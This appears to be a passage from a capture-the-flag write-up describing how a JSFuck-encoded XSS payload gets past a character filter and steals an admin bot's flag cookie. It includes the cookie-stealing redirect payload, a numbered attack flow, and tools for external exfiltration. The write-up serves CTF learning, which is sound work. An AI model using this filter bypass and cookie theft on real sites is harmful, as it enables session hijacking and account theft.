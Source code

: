 ### The Filter Bypass
```javascript
// Filter blocks most characters but MISSES:
const lowercase = 'abdefghjklmnpqrstuvwxyz';  // Missing: c, i, o
const special = '!"#$%&\'()*,-./:;<>?@\\^_`{|}~\t\n\r ';  // Missing: +, [, ]

// JSFuck only needs: [ ] ( ) ! +
// Perfect bypass! ✓
```

### The Payload
```javascript
// When admin visits our malicious search:
location='/searches?c='+document.cookie

// This redirects admin to /searches with their cookie (containing flag)
// We can then see it in the URL or server logs
```

## Attack Flow
```
1. Attacker creates search with JSFuck XSS payload
   POST /search with q=test, _=<JSFUCK>
   
2. Server responds with redirect to /search/<UUID>
   
3. Attacker reports URL to admin
   POST /report with url=http://localhost:3000/search/<UUID>
   
4. Admin bot visits the URL with flag cookie
   
5. XSS executes: location='/searches?c='+document.cookie
   
6. Admin redirected to /searches?c=flag=PCC{...}
   
7. Attacker captures flag from URL/logs
```

## Key Tools & Resources

### Required
- **JSFuck Encoder**: https://jsfuck.com/
- **Python 3**: For running exploit scripts
- **Requests library**: `pip install requests`

### Optional (for external exfiltration)
- **HTTP Server**: `python -m http.server 8000`
- **ngrok**: To expose local server
- **Burp Suite**: For manual testing
